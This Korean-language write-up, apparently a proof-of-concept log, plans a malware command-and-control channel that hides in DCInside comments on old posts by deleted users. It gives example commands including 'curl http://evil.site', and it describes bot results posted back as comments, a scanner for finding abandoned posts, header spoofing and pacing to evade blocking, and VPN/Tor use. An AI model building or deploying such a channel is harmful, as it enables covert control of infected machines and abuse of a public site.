



# 디시 인사이드를 활용한 LOTS(living off threat sites)

## 선정 이유

1. 다른 사이트 들과 달리 cloud flare가 없어 자동화에 유리하다.
2. 수 많은 개시물이 있고 그 중에 하나에 들어가 사용자가 탈퇴했는지 확인하는 것이 가능하다.
3. 탈퇴한 사람의 게시글에 댓글을 달게 되었을 때 몇년 전 게시글이라면 찾아볼 사람도 없을 것이라 예상한다.
4. 심지어 댓글을 남길 때에 이름을 선택하고 비밀번호를 선택할 수 있어 LOTS 명령어를 바이러스가 받은 후 개시물 삭제가 가능하고 크롤링에도 유리하다.

## 1차 목표

- [ ] 적합한 게시물 선정 _ 자동화

- [ ] LOTS 시나리오: 공격자가 `신뢰받는 사이트`인 DCInside의 댓글 기능을 악용하여, 외부에서 특정 메시지를 전달받고 악성 동작을 수행.

- [ ] 악성 동작을 수행한 후 결과를 다시 댓글로서 게시글에 올리게됨.

## 1차 예시 시나리오

1. 공격자는 디시인사이드 특정 글에 댓글로 명령어(`whoami`, `curl http://evil.site`)를 남김. 필요시 base64인코딩.
2. 봇은 주기적으로 이 글의 댓글을 확인.
3. 받은 명령어 부분을 실행 후 나온 결과물을 저장한 뒤 (디시인사이드에 접근하지 못하게 되었을 경우를 대비, 대신 매우 깊은 곳에 가능하다면 C 드라이브에 os_result 라는 이름의 파일로 생성할 예정) 같은 게시물 혹은 다른 게시물에 댓글을 달아 결과를 전송

### 1차 poc

- 일단 테스트를 할 때에 혹시 모를 상황에 대비하여 vpn을 사용 권장
- 필자는 proton vpn, tor, openvpn을 사용하여 테스트 해보았음

#### 게시물 선정

가능하다면 최대한 게시물이 많은 게시판을 선정.

그리고 여기서 가장 마지막 페이지로 가서 찾는다고 하면 혹시나 누군가 볼 수도 있을 것이라 생각하여 `가장 마지막 페이지 - (가장 마지막 페이지 / 6)` 정도의 위치에서 찾도록 하겠다.

그리고 그 중에서도 탈퇴한 회원의 게시물을 찾아야 한다.

#### 디시 인사이드 회원 탈퇴 로직 파악하기

하지만 사람이 직접 하나하나 찾아보기에는 솔직히 너무 게시물이 많기도 하고 우리는 코딩을 할 줄 아는 사람이며 디시 인사이드에는 로봇인지 확인하는 과정이 없기 때문에 자동화도 매우 쉽다.

코드의 이름은 `dc-lots-scanner.py`로 선정하였고 자동화를 한다고 하여도 일단 현재로써는 갤러리의 선정까지는 하드코딩 하는 것으로 선택했다.

그리고 사용자 확인할 때에 너무 요청이 많이 가서 `DDOS`로 오해받지 않기 위해 꼭 1, 2초의 처리 시간을 가지도록 하자. 이런 사소한 코드 하나가 큰 일이 될 수 있다.

이렇게 자동화 코드를 완성하였다.

... 코드를 만들고 보니 내가 에초에 디시 인사이드의 고정닉 유동닉에 대해 잘 모르는 것이 아닌가 하여 조사를 해보았다.

유동닉네임은 댓글 알람을 못받는다?

https://gall.dcinside.com/mgallery/board/view/?id=bravegirls0409&no=297410

흐음.. 누군가는 또 온다는 이야기도 있다.

https://gall.dcinside.com/mgallery/board/view/?id=speakers&no=130636

아 알림이 오기는 한가본데?

https://gall.dcinside.com/mgallery/board/view/?id=qmfzh&no=336534

알림이 오는게 거의 확실해 보인다.

그렇다면 우리의 타겟은 혹시모를 유동닉 유저가 아닌 **탈퇴한 고정닉** 유저를 타겟으로 잡자.

그리고 더 확실한 결과를 위해 다시 조사를 시작했다. (2025-07-26)

정확한 확인을 위해 시제로 고정닉 회원가입을 진행해보았다.

탈퇴를 위해 꼭 가지고 있어야겠다.

식별 코드와 보안 코드를 준다. 어쩌피 탈퇴할 계정이기에 이리 올려본다.

자 이제 직접 로그인해보자.

로그인에 성공했다. 뭔가 이메일 인증이라도 있을줄 알았는데 되게 쉽게 개인 인증도 없어서 뭔가 기분이 묘하다. 익명성에 중점을 둔 사이트라 그런걸까? 오히려 그래서 LOTS에 사용하기 좋기도 하다.

MY갤로그에 들어가보면 이렇게 사용자의 이름과 정보가 떠야한다. 그럼 이제 아무 갤러리에 들어가서 글을 쓰고 내 정보를 확인해보자.

https://gall.dcinside.com/mini/board/lists/?id=dogforawalk 이 갤러리는 아무도 사람이 없기에 이 갤러리에 테스트를 해보기로 하였다.

심지어 보아하니 갤러리 주인이 증발했다고 하는 듯 하다. 아 그런데 개시글을 달 때에 무조건 익명으로 달게 되어 여기는 테스트에 적합하지 않다.

그나마 들어본 모기 갤러리로 선택했다. https://gall.dcinside.com/mgallery/board/lists/?id=mosquito

이렇게 글을 올려보고 확인해보자.

탈퇴한 사람의 정보를 알기 위해서는 위 사진에서 글을 눌렀을 때에 https://gallog.dcinside.com/sunday2170/posting가 아니라 https://gallog.dcinside.com/_error/deleted로 이동된다면 탈퇴 된 사람일 가능성이 생겼다.

이 상태가 지금 탈퇴하지 않은 회원의 경우 html 결과이다.

그리고 이건 페이지의 html이 아닌 댓글을 작성 하였을 때 게시물에서의 html이다.

이제 한번 탈퇴를 진행하고 어떻게 변하는지 확인해보자.

이제 확실해진 것 하나는 탈퇴를 진행해도 게시물과 댓글은 삭제되지 않는다는 것이다.

현재 갤로그 상태

성공이다.

그리고 예상대로 삭제된 갤로그입니다 페이지로 리다이렉트 되는 것이 확인되었다.

가능하면 속도를 늘리기 위해 페이지(/?id=mosquito&page=2)에서 탈퇴한 사용자인지 확인할 수 있는지 html을 유심히 살펴보자.

이런.. 페이지에서는 탈퇴한 사용자인지에 관한 정보를 주지 않는다.

그렇다면 게시물 선정 로직에서 어쩔 수 없이 리다이렉트 되는 방식을 이용할 수 밖에 없겠다.

#### 디시 인사이드 회원 탈퇴 게시물 선정 구현하기

아 이런 설마설마 했는데 봇은 차단 당한다.

뭐 당연한 결과이려나? 아니면 코드상의 문제일 수도 있겠다.

세상에 아니였다!! 일단 처음 테스트한 코드의 문제는 User-Agent, Referer등이 없어 봇이라 판단하여 차단 당한 것이었고, 이번에 404가 뜬 것은 탈퇴한 회원이라서 캘로그가 삭제되어 404를 뱉었던 것이다! 일반 사용자 일 때에는 200 코드를 뱉는다는 사실을 확인했다.

이제 구현에 성공하여 실제 게시물들에 들어가 확인해보면 생각했던 것 처럼 탈퇴한 사용자임을 확인할 수 있었다.

속도를 늘려볼까 하는 마음에 동시 처리 속도 향상을 위해 각 스켄당 대기 시간을 1초-2초로 설정하고 15페이지씩 스캔할 수 있도록 하였더니, 바로 디시 인사이드에서 감지하여 밴을 먹게 되었다. 고로 5개씩 2-3초의 텀을 두고 스캔하여 서버에 부하를 줄이도록 하자.